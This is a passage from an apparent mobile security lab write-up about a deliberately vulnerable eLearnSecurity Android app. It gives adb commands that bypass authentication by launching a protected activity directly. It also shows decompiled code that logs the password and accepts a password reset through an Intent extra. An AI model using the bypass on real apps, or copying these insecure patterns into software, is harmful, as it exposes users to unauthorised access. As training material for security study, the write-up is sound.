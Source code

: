 

Bypass application's authentication.

```bash
adb shell
su
am start -n com.elearnsecurity.vulnerablereceiver/.ProfitActivity
```

📌 `MainActivity` class

- a random password is generated, but if an Intent is received with an Extra of `NEWPASS` the password is reset

```java
package com.elearnsecurity.vulnerablereceiver;

import android.content.Intent;
import android.os.Bundle;
import android.support.v4.media.TransportMediator;
import android.support.v7.app.AppCompatActivity;
import android.support.v7.widget.Toolbar;
import android.util.Log;
import android.view.Menu;
import android.view.MenuItem;
import android.view.View;
import android.widget.Button;
import android.widget.EditText;
import android.widget.Toast;
import java.math.BigInteger;
import java.security.SecureRandom;

/* loaded from: classes.dex */
public class MainActivity extends AppCompatActivity {
    Button b1;
    EditText ed1;
    SecureRandom random = new SecureRandom();
    String password = new BigInteger((int) TransportMediator.KEYCODE_MEDIA_RECORD, this.random).toString(32);

    @Override // android.support.v7.app.AppCompatActivity, android.support.v4.app.FragmentActivity, android.support.v4.app.BaseFragmentActivityDonut, android.app.Activity
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Toolbar toolbar = (Toolbar) findViewById(R.id.toolbar);
        setSupportActionBar(toolbar);
        Log.v("PASSWORD", this.password);
        String newPassword = getIntent().getStringExtra("NEWPASS");
        if (newPassword != null && !newPassword.isEmpty()) {
            this.password = newPassword;
        }
        this.b1 = (Button) findViewById(R.id.button1);
        this.ed1 = (EditText) findViewById(R.id.editPassword);
        this.b1.setOnClickListener(new View.OnClickListener() { // from class: com.elearnsecurity.vulnerablereceiver.MainActivity.1
            @Override // android.view.View.OnClickListener
            public void onClick(View v) {
                if (MainActivity.this.ed1.getText().toString().equals(MainActivity.this.password)) {
                    Toast.makeText(MainActivity.this.getApplicationContext(), "Redirecting...", 0).show();
                    Intent intent = new Intent(v.getContext(), ProfitActivity.class);
                    MainActivity.this.startActivity(intent);
                    return;
                }
```